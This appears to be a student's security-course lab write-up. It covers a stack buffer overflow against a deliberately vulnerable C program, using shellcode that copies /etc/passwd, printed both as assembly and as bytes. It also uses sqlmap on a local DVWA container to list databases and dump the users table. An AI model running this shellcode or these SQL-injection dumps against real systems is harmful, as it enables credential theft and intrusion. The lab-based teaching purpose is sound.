





# Lab #1,22110040, Le Thi Thu Huong, INSE330380E_01FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile

```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: Must conform to below structure:

Prepare the environment

```
sudo sysctl -w kernel.randomize_va_space=0
```

Compile C program

1. Save the C code in a file named "lab1vuln.c"
2. Compile the C code with GCC to create an executable

```
gcc lab1vuln.c -o lab1vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Compile asm program

1. Save the assembly shellcode in a file named "lab1vuln.c"
2. Assemble the shellcode using NASM to create an object file

```
nasm -g -f elf lab1sh.asm; ld -m elf_i386 -o lab1sh lab1sh.o
```

Get the shellcode of asm program

```
for i in $(objdump -d lab1sh |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```


shellcode = (\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80)

The shellcode provided is designed to perform a specific sequence of system calls in order to copy the contents of the /etc/passwd file to /tmp/pwfile.

Stackframes of the program

Use objdump to find the address of the redundant_code function

```
objdump -d lab1vuln.out|grep redundant_code
```



The command objdump -d lab1vuln.out | grep redundant_code is used to find the address where the redundant_code function is located in the executable. The output simply shows that the function redundant_code starts at memory address 0x0804846b

# Task 2: Attack on database of DVWA

- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Prepare the environment

1. To set up DVWA in a Docker
   container, follow these steps

Pull the DVWA Docker image

```
docker pull vulnerables/web-dvwa
```

Chạy DVWA trong container

```
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa
```



2. Access DVWA:

Open a web browser and navigate to http://localhost/setup.php.

Click on the Create / Reset Database button to set up the database.

3. Login to DVWA:

Go to http://localhost/login.php.
Use the default credentials:

Username: admin
Password: password

Answer the question

1. Install SQLMap:

Install SQLMap via the command line.

Clone the SQLMap repository

```
git clone https://github.com/sqlmapproject/sqlmap.git
```

Navigate to the SQLMap directory

```
cd sqlmap
```

 2. Run SQLMap Against DVWA

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" --dbs
```

3. SQLMap Output

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

1. Get Tables in the DVWA Database:

Use the following command to list all tables in the DVWA database:

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" -D dvwa --tables
```

To retrieve information about users from the users table, use the following command

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" -D dvwa -T users --dump
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
